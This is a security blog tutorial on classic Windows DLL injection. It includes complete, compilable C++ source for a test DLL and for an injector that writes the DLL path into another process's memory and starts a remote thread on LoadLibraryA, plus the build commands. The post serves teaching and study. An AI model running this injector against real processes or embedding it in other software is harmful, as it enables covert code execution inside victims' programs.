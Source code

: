 ```yaml
---
title:  "Classic DLL injection into the process. Simple C++ malware."
date:   2021-09-20 10:00:00 +0600
header:
  teaser: "/assets/images/7/2021-09-20_15-01.png"
categories:
  - tutorial
tags:
  - dll injection
  - windows
  - malware
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL injection](/assets/images/7/2021-09-20_15-01.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.

In this post we will discuss about a classic DLL injection technique which are use debugging API.

About classic code injection I wrote in [this](/tutorial/2021/09/18/malware-injection-1.html) post.

Firstly, let's go to prepare our DLL.       

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called `main` which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.

On the other hand with the `DLL`'s when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements.

So *exe need a main function and DLL's need DLLMain function*   
Basically that's the simplest difference.

For simplicity, we create DLL which just pop-up a message box:

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

It only consists of `DllMain` which is the main function of DLL library. It doesn't declare any exported functions which is what legitimate DLLs normally do. `DllMain` code is executed right after DLL is loaded into the process memory.

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](/assets/images/7/2021-09-20_17-01.png){:class="img-responsive"}

and put it in a directory of our choice (victim's machine):
![put DLL](/assets/images/7/2021-09-20_17-09.png){:class="img-responsive"}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

It's pretty simple as you can see. It's same as in my [code injection](/tutorial/2021/09/18/malware-injection-1.html) post. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:

![LoadLibraryA](/assets/images/7/2021-09-20_18-11.png){:class="img-responsive"}

So finally after we understood entire code of the injector, we can test it.
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](/assets/images/7/2021-09-20_18-20.png){:class="img-responsive"}

Let's first launch a `calc.exe` instance and then execute our program:

![run injector](/assets/images/7/2021-09-20_18-25.png){:class="img-responsive"}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

![Process Hacker](/assets/images/7/2021-09-22_09-03.png){:class="img-responsive"}

In another memory section we can see:
![Process Hacker 2](/assets/images/7/2021-09-22_09-23.png){:class="img-responsive"}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

If you want you can also add function call obfuscation like [this](/tutorial/2021/09/06/simple-malware-av-evasion-2.html) post.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/meow/tree/master/2021-09-24-injection-2)

In the future I will try to figure out more advanced code injection techniques.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
